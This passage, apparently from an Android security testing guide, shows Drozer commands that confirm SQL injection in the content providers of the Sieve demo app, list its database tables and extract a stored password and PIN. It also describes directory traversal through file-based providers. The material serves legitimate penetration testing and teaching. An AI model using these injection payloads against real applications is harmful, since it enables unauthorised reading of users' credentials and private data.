 ```bash
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "'"
unrecognized token: "' FROM Passwords" (code 1): , while compiling: SELECT ' FROM Passwords

dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --selection "'"
unrecognized token: "')" (code 1): , while compiling: SELECT * FROM Passwords WHERE (')
```

If an application is vulnerable to SQL Injection, it will return a verbose error message. SQL Injection on Android may be used to modify or query data from the vulnerable content provider. In the following example, the Drozer module `app.provider.query` is used to list all the database tables:

```bash
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "*
FROM SQLITE_MASTER WHERE type='table';--"
| type  | name             | tbl_name         | rootpage | sql              |
| table | android_metadata | android_metadata | 3        | CREATE TABLE ... |
| table | Passwords        | Passwords        | 4        | CREATE TABLE ... |
| table | Key              | Key              | 5        | CREATE TABLE ... |
```

SQL Injection may also be used to retrieve data from otherwise protected tables:

```bash
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "* FROM Key;--"
| Password | pin |
| thisismypassword | 9876 |
```

You can automate these steps with the `scanner.provider.injection` module, which automatically finds vulnerable content providers within an app:

```bash
dz> run scanner.provider.injection -a com.mwr.example.sieve
Scanning com.mwr.example.sieve...
Injection in Projection:
  content://com.mwr.example.sieve.DBContentProvider/Keys/
  content://com.mwr.example.sieve.DBContentProvider/Passwords
  content://com.mwr.example.sieve.DBContentProvider/Passwords/
Injection in Selection:
  content://com.mwr.example.sieve.DBContentProvider/Keys/
  content://com.mwr.example.sieve.DBContentProvider/Passwords
  content://com.mwr.example.sieve.DBContentProvider/Passwords/
```

#### File System Based Content Providers

Content providers can provide access to the underlying filesystem. This allows apps to share files (the Android sandbox normally prevents this). You can use the Drozer modules `app.provider.read` and `app.provider.download` to read and download files, respectively, from exported file-based content providers. These content providers are susceptible to directory traversal, which allows otherwise protected files in the target application's sandbox to be read.
